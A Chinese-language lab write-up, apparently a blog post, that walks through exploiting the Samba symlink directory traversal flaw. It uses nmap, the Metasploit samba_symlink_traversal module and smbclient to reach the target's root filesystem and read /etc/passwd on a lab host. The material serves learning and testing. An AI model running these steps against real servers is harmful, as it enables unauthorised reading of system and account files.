 ```yaml
---
title: sysmlink漏洞
date: 2021-12-20 16:32:26
tags: 
    - sysmlink
    - msf
---
```


## sysmlink 目录遍历漏洞

### 利用sysmlink漏洞读取目标主机的passwd文件内容

#### 原理：Samba是一套实现SMB（server messages block）协议，跨平台进行文件共享和打印共享服务的程序，samba的sambd默认配置在可写文件共享时，存在目录遍历漏洞，远程用户可以通过smbclient端使用一个对称命，创建一个包含..的目录遍历符的软连接 ，可以进行目录遍历以及访问任意文件。

### 过程：

使用`nmap -sV ip` 扫描主机，确认开放`445`，`139`端口且安装了`samba`服务，版本为3

![image-20211220165606561](http://121.5.125.62/image/sysmlink漏洞/image-20211220165606561.png)

命令行输入`search samba`，搜索samba的相关工具和载荷。

![image-20211220173445099](http://121.5.125.62/image/sysmlink漏洞/image-20211220173445099.png)

终端中输入`use auxiliary/admin/smb/samba_symlink_traversal`，启用漏洞利用模块

输入`info`，`"yes"`表示必须要填写的信息

![image-20211220173527544](http://121.5.125.62/image/sysmlink漏洞/image-20211220173527544.png)

输入`set RHOST 192.168.1.3`和`set SMBSHARE tmp`，设置主机ip地址和SAM可写文件

输入exploit开始攻击

![image-20211220173602852](http://121.5.125.62/image/sysmlink漏洞/image-20211220173602852.png)

新建终端，输入`smbclient //192.168.1.3/tmp`，直接回车，无密码

输入`cd rootfs`,进入rootfs目录，输入ls，列出目录

![image-20211220173635907](http://121.5.125.62/image/sysmlink漏洞/image-20211220173635907.png)

输入`more /etc/passwd`

![image-20211220173656794](http://121.5.125.62/image/sysmlink漏洞/image-20211220173656794-16399930170041.png)

此实验完成
